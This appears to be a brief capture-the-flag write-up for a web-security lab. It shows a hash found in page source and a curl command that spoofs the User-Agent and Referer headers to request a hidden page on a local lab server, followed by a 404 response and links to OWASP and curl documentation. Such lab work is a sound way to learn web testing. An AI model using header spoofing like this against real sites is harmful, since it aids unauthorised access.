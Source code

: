 sha26: e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c = TAMERE

https://md5hashing.net/hash/sha256/e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c





```bash
Curl --user-agent ft_bornToSec --referer "https://www.nsa.gov/" "http://192.168.1.34/\?page\=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c"
```

<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.8.0</center>
</body>
</html>

## Info

[owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/03-Review_Webserver_Metafiles_for_Information_Leakage)<br/>
[curl](https://curl.se/docs/manpage.html#-H)<br/>